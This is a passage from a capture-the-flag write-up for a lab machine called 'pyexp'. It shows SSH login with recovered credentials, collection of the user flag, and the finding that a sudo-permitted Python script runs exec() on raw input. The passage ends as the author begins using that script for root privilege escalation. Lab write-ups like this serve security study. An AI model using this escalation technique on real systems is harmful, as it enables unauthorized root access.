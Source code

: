 
<br>

## System Access

It worked! We were able to decrypt a username and password with our script. Connecting over via ssh:

`ssh lucy@192.168.57.118 -p 1337`

```bash
lucy@192.168.57.118's password: 
Linux pyexp 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
lucy@pyexp:~$
```

<br>

## System Enumeration

The **local.txt** flag is waiting for us in our home directory:

`wc -c local.txt`

```bash
33 local.txt
```

I check `sudo -l` and see:

```bash
Matching Defaults entries for lucy on pyexp:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucy may run the following commands on pyexp:
    (root) NOPASSWD: /usr/bin/python2 /opt/exp.py
```

Take a look at the **/opt/exp.py** script:

```python
uinput = raw_input('how are you?')
exec(uinput)
```

So this code will run whatever we input via **exec**.

I try and get it to run **bash**:

`sudo /usr/bin/python2 /opt/exp.py`
